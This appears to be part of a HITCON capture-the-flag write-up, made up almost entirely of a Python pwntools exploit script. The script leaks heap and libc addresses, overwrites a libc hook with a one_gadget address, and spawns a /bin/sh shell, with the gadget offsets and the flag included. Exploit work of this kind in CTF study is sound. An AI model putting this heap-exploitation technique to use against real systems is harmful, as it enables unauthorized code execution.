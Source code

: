 ```python
delete(12)
delete(14)
add(10, 1, 1, '\x90')
add(12, 1, 1, '\x00')
add(14, 1, 0x38, flat(0, 0, 0, 0, 0, 0, 0x000000010000030f))
x = show(13).strip()
x = decrypt(x.decode('hex'))
heap = u64(x[14*8:15*8])
libc = u64(x[28*8:29*8]) - 0x3ebf90
print 'heap:', hex(heap)
print 'libc:', hex(libc)
'''
print len(x), x
for i in range(33):
    heap = u64(x[i*8:(i+1)*8])
    print i, hex(heap)
'''

# pwn
hook = libc + 0x3ed8e8
#system = libc + 0x4f440
system = libc + 0x10a38c
delete(5)
delete(13)
add(16, 1, 0x8, flat(hook))
add(18, 1, 0x8, flat(hook))
add(13, 1, 0x8, flat(system))
#raw_input("@")
delete(11)
'''
0x4f2c5	execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322	execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''

# hitcon{overflow_with_CBC_and_why_calloc_doesnt_use_tcache??}

r.interactive()

```



### Super Hexagon
